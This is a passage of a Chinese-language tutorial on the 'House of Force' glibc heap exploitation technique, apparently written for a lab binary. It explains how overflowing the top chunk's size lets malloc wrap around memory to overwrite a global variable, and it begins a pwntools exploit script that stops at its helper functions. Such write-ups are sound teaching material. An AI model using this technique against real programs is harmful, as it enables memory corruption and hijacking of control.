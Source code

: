 target 变量位于0x404070，由前面的memory map 可知其为可写部分（一般来说，非静态全局变量都在这里）但0x404070在heap 0x405000之前，heap 地址只能往大处增长，如何覆盖到一个小的数值？

容易想到，整数溢出。由于heap的地址只能往大处增长，但不能无穷增长，到最大地址0xffffffffffffffff (32位的是0xffffffff)后，再继续增长就要从0x0开始了，进而有可能覆盖到target。

基本思想有了，下面描述一下具体做法：

1. 先malloc一段小内存，写入内容溢出，使得系统误以为top_chunk大小为0xffffffffffffffff
2. 然后再malloc一段大内存，使得top_chunk位置越过最大内存地址，回到开始，且在target附近
3. 最后在再malloc一段内存，使得刚好覆盖target的位置，进而我们可以控制target及其附近的内容。

![heap](house_of_force.assets/heap.png)

用pwntool编写exp [house_of_force.py](../house_of_force/house_of_force.py) 

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("house_of_force")
libc = elf.libc

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def malloc(size, data):
    io.send("1")
    io.sendafter("malloc size: ", f"{size}")
    io.sendafter("malloc data: ", data)
    io.recvuntil("your option is: ")

def delta(x, y):
    return (0xffffffffffffffff - x) + y

```